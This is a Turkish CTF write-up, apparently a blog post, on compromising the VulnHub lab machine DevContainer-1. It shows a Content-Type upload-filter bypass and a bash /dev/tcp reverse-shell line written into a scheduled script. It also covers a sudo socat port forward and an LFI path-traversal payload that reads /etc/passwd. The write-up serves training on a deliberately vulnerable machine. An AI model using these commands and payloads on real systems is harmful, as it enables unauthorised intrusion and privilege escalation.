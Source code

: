 ```yaml
---
title: "VULN DevContainer-1 Write Up"
date: 2020-09-21T22:53:05+03:00
draft: false
toc: true
images:
tags: [Vulnhub,write-up,Docker,Container,sudo,lfi,burp suite] 
categories: [write-up]
author : "Barcode"
Description : "Merhaba, Bu yazımda sizlere [VULNHUB](https://www.vulnhub.com/entry/devcontainer-1,548/) 'da yer alan medium seviye DevContainer-1 adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar..."
cover : images/vulnhub/devcontainer1/cover.png
  
---
```

"Merhaba, Bu yazımda sizlere [VULNHUB](https://www.vulnhub.com/entry/devcontainer-1,548/) 'da yer alan medium seviye DevContainer-1 adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar..."

## 1. Keşif Aşaması
{{< text >}}
Makina kalıp dosyası siteden indirildikten sonra sanallaştırma yazılımları tarafından import edilir ve çalıştırılır. DHCP servisi tarafından atanan ip adresinin tespit edilmesi için netdiscover aracı ile ağda tarama yapılır.
{{< /text >}}
```bash
netdiscover -i eth1
```

{{< image src="/images/vulnhub/devcontainer1/discover.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Ip adresi tespit edildikten sonra nmap ile makinenin açık portları ve portlarda çalışan servisleri tespit edilir.

{{< image src="/images/vulnhub/devcontainer1/nmap.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

{{< text >}}
<br>
Tarayıcı ile web servisine istek atılır. Açılan sayfa ve kaynak kodları incelendiğinde olağan dışı bir bilgiye görülmemektedir.
<br>
<br>
{{< /text >}}

{{< image src="/images/vulnhub/devcontainer1/webpage.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Gobuster aracı ile Web dizin taraması gerçekleştirilir.
```bash
gobuster dir -u http://192.168.56.104/ -w /usr/share/wordlists/dirb/big.txt 
```

{{< image src="/images/vulnhub/devcontainer1/gobuster.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

**Upload** dizini dikkat çekmektedir. Tarayıcıdan istek atıldığında upload sayfası karşılamaktadır. İzin verilen dosya uzantıları ekranda yazılmaktadır.

{{< image src="/images/vulnhub/devcontainer1/upload.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Burpsuite uygulaması açılır ve normal bir resim dosyası yüklendiğinde giden istek incelenir.

{{< image src="/images/vulnhub/devcontainer1/normal.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Php uzantılı dosya yüklendiğinde giden isteğin _**Content-type**_ değeri ***image/gif*** şeklinde değiştirilerek deneme yapılır. Yükleme işlemi başarılı bir şekilde gerçekleşmektedir.

{{< image src="/images/vulnhub/devcontainer1/son.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 2. Erişim Sağlanması

İlgili port dinlenmeye alınarak upload ekranında yer alan index yazısına tıklanarak yüklenen dosya çağırılır ve reverse shell alınır.

{{< image src="/images/vulnhub/devcontainer1/shell.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

***/etc/passwd*** dosyası görüntülenerek sistemdeki kullanılar tespit edilir. Login olabilecek kullanıcı gözükmemektedir. Bu durumda bir container içerisinde olduğumuz tespit edilir. 

{{< image src="/images/vulnhub/devcontainer1/etc.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Web uygulamasının çalıştığı ***/var/www/html*** dizine geçilir.

{{< image src="/images/vulnhub/devcontainer1/dizin.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

**Maintenance-Web-Docker** dizini dikkat çekmektedir. Dizine girilerek içerisinde yer alan alan dosyalar incelenir.

{{< image src="/images/vulnhub/devcontainer1/webdocker.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

```terminal
cat maintenance.sh

#!/bin/bash
#Version 1.0
#This script monitors the uploaded files. It is a reverse shell monitoring measure.
#path= /home/richard/web/webapp/upload/files/
/home/richard/web/Maintenance-Web-Docker/list.sh


cat list.sh

#!/bin/bash
date >> /home/richard/web/Maintenance-Web-Docker/out.txt
ls /home/richard/web/upload/files/ | wc -l >> /home/richard/web/Maintenance-Web-Docker/out.txt
```

Dockerda yer alan **www** dizini ile **/home/richard/web/** dizini birbirine volume oluşturularak bağlanmıştır. List.sh dosyası shell alınacak şekilde düzenir ve çalıştırılır.

```bash
echo "bash -i &>/dev/tcp/192.168.56.105/7777 0>&1" > list.sh
```
7777 numaralı port dinlenir ve bağlantı sağlanır.

{{< image src="/images/vulnhub/devcontainer1/rev.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

User.txt dosyası okunarak ilk aşama tamamlanır.

{{< image src="/images/vulnhub/devcontainer1/userflag.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 3. Yetki Yükseltme

Sudo -l komutu ile yetkiler kontrol edilir.

{{< image src="/images/vulnhub/devcontainer1/sudo.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Parola gerektirmeden root yetkisi ile socat uygulamasının çalıştırılabildiği görülmektedir. **TCP-LISTEN 8080** ile 8080 portuna gelen bağlantılar dinlenir, **fork** ile gelen bağlantılar 90 portuna yönlendirilir.

```bash
sudo -u root /home/richard/HackTools/socat TCP-LISTEN\:8080\,fork TCP\:127.0.0.1\:90
```
Komut çalıştırıldığında 8080 portu gelen bağlantılar için dinlenmeye başlanır. Tarayıcıdan *http://makianaipsi:8080* istek atıldığında web sayfası açılır.

{{< image src="/images/vulnhub/devcontainer1/web.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Sayfada yer alan linklere tıklandığında lfi açığı olabileceği tespit edilir.

{{< image src="/images/vulnhub/devcontainer1/lfi.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

***view=../../../../../../etc/passwd*** parametre girilerek lfi açığı varlığı tespit edilir. Görüldüğü gibi include işlemi başarılı gerçekleşmiş ve passwd dosyası okunmuştur. 

{{< image src="/images/vulnhub/devcontainer1/passwd.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

İlk etapta upload ettiğimiz shell dosyası **../upload/files** klasörü altındadır. O dosya tekrar çağırılarak bağlantı alınır.

{{< image src="/images/vulnhub/devcontainer1/shell2.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

/root dizinine geçilir ve dizin listenir ve çözüm tamamlanır.

{{< image src="/images/vulnhub/devcontainer1/root.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}







































